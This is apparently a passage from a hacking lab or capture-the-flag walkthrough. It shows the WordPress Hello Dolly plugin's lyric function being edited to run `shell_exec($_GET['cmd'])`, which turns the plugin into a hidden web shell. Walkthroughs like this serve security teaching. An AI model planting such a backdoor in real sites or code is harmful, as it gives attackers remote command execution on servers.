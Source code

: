 See the text around the top right of the page?

```
So, take her wrap, fellas
```

It's a line from Louis Armstrong's song _Hello Dolly_. It's printed by a WordPress plugin called Hello Dolly.

### Dolly'll Never Gonna Give You Up

I went to the plugins page and edit the Hello Dolly plugin's `hello_dolly_get_lyric()` function to something like this.

```
function hello_dolly_get_lyric() {
  /** These are the lyrics to Hello Dolly */
  $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
So, take her wrap, fellas
Find her an empty lap, fellas
Dolly'll never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
We feel the room swayin'
While the band's playin'
One of your old favourite songs from way back when
Golly, gee, fellas
Find her a vacant knee, fellas
Dolly'll never go away
Dolly'll never go away
Dolly'll never go away again";

  // Here we split it into lines
  $lyrics = explode( "\n", $lyrics );

  // And then randomly choose a line
  //return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
  $lyrics = "<pre>".shell_exec($_GET['cmd'])."</pre>";
  return  wptexturize($lyrics);
}
```
